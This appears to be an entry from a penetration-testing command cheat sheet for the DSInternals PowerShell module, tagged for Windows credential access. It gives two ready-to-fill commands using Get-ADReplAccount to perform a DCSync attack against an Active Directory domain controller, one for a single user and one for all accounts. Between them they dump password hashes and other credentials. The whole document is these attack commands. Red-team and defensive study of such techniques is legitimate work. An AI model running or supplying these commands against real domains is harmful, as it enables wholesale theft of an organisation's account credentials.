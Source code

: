 # DSInternals

% DSInternals, , Active directory
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## dcsync user
```powershell
Get-ADReplAccount -SamAccountName <user> -Server '<dc_name>'
```

## dcsync all
```powershell
Get-ADReplAccount -All -Server '<dc_name>'
```